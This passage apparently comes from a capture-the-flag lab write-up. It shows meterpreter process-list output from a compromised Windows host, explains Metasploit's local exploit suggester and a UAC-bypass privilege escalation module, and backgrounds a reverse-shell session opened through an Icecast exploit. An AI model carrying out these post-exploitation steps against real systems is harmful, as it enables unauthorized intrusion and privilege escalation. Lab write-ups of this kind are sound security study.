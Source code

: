 ```bash
 708   592   lsm.exe
 816   692   svchost.exe
 880   1524  Icecast2.exe       x86   1        Dark-PC\Dark  C:\Program Files (x86)\Icecast2 Win32\Icecast2.ex
                                                             e
 884   692   svchost.exe
 932   692   svchost.exe
 1020  692   svchost.exe
 1060  692   svchost.exe
 1140  692   svchost.exe
 1264  692   spoolsv.exe
 1328  692   svchost.exe
 1432  692   taskhost.exe       x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1444  692   amazon-ssm-agent.
             exe
 1508  1020  dwm.exe            x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1524  1500  explorer.exe       x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1544  692   SearchIndexer.exe
 1740  692   LiteAgent.exe
 1792  692   svchost.exe
 2008  692   Ec2Config.exe
 2080  692   vds.exe
 2084  816   WmiPrvSE.exe
 2468  692   svchost.exe
 2660  692   TrustedInstaller.
             exe
 2808  692   sppsvc.exe
 2928  816   slui.exe           x64   1        Dark-PC\Dark  C:\Windows\System32\slui.exe

meterpreter > 
```

we will use the Metasploit module `post/multi/recon/local_exploit_suggester` which is a post-exploitation module used to suggest local privilege escalation exploits on a compromised system.
- Gathers information about the target system (e.g., kernel version, architecture).
- Compares it with Metasploit's known local exploits.
- Suggests the most likely working local privilege escalation exploits.

<img width="1459" height="796" alt="image" src="https://github.com/user-attachments/assets/e4b4f99b-f0d1-41db-96a4-5900a1d7ab69" />

The Metasploit module `exploit/windows/local/bypassuac_eventvwr` is a local privilege escalation exploit that targets Windows UAC (User Account Control) using a method involving the Event Viewer

Background our current session using the command `background` or `CTRL + z`
```bash
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/http/icecast_header) > sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.9.8.180:4444 -> 10.10.37.29:49245 (10.10.37.29)

```
